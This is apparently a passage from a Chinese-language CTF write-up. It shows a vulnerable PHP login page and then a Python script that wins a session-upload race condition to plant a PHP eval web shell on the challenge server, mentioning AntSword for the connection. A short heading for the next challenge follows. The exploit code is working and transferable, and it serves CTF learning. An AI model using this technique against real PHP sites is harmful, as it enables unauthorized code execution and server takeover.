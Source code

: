 index.php
```php
<?php
include 'config.php';
@$name=$_GET['name'];
@$pass=$_GET['pass'];
if(md5($secret.$name)===$pass){
	echo '<script language="javascript" type="text/javascript">
           window.location.href="flflflflag.php";
	</script>
';
}else{
	setcookie("Hash",md5($secret.$name),time()+3600000);
	echo "username/password error";
}
?>
<html>
<!--md5($secret.$name)===$pass -->
</html>
```

这个`dir.php`，很难不让人联想到利用`session`条件竞争写木马
```python
import requests
import io
from threading import Thread
from time import sleep

ur='http://9fe5d7d0-6a86-40a8-b6e3-6a6ed9d00084.node4.buuoj.cn:81/flflflflag.php'
dat={"PHP_SESSION_UPLOAD_PROGRESS":"<?php fputs(fopen('a.php','w'),'<?php eval($_GET[door])?>');?>"}
fil={'file':('a.txt',io.BytesIO(b'a'*1024*5))}
cooki={'PHPSESSID':'abc'}
par={'file':'/tmp/sess_abc'}
ses=requests.session()

def Upload():
    while True:
        if ses.post(url=ur,data=dat,files=fil,cookies=cooki,allow_redirects=False).status_code!=200:
            sleep(0.1)

a=Thread(target=Upload)
a.start()
while True:
    ses.get(url=ur,params=par,allow_redirects=False)
```
~~蚁剑连接即可~~
flag在`phpinfo`里

# \<NPUCTF2020>ReadlezPHP
